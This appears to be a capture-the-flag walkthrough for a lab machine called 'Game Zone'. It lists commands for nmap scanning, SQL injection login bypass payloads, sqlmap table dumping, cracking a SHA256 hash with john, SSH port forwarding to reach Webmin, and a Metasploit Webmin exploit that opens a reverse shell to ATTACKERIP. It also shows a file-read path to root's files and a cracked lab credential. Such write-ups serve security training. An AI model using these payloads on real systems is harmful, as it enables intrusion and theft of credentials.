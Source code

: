 # Game Zone

### **Tasks**:

1. **Deploy the vulnerable machine**:
   1. Do nmap scan with `nmap -sV -T5 ip` - PORT 22,80 open
   2. Visit ip in browser , do reverse image search and submit answer - agent 47.
2. &#x20;**Obtain access via SQLi**:
   1. Use SQLi payload such as `' or 1=1 #` or `' or 1=1 -- -` in username and login.
   2. You will be redirected to portal.php
3. **Using SQLMap**:
   1. Search something in website and intercept request using burpsuite, copy the request as a text file request.txt.
   2. Run `sqlmap -r request.txt --dump` - There are 2 tables users and post, users has 1 user agent47 with hashed password stored in table.
   3. You can use [Online Hash Identifier](https://hashes.com/en/tools/hash\_identifier) or hashid to detect hash type - SHA256
   4. Use `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256` to crack password - videogamer124
   5. ssh using `ssh agent47@10.10.71.237` and cracked password when prompted - You now have shell, cat user.txt and submit user flag.
4. **Exposing services with reverse SSH tunnels**:
   1. Run `ss -tulpn` to get running sockets, port 10000 is open but cannot be accessed from outside due to firewall.
   2. Use `ssh -L 10000:localhost:10000 agent47@ip` to explose port 10000 locally to ourself (attacker).
   3. Open http://ip:10000 in attacker browser, it's webmin login page, Login using agent47:videogamer124, Version exposed after logging in - 1.580
5. **Privilege Escalation with Metasploit**:
   1. `searchsploit webmin 1.580` to know which metasploit exploit we need to use.
   2. `use exploit/unix/webapp/webmin_show_cgi_exec` , `set RHOSTS 127.0.0.1`, `set PASSWORD videogamer124`, `set payload cmd/unix/reverse`, `set LHOST ATTACKERIP`, `set LPORT 4444`,  `run`
   3. You now have root shell, type `cat /root/root.txt` to get root flag and submit.
   4. Alternative to metasploit ,search for exploits online in exploit-db , /file/show.cgi allows authenticated users to view file manager as root ,Open http://localhost:10000/file/show.cgi/root/root.txt in browser to get flag and submit.
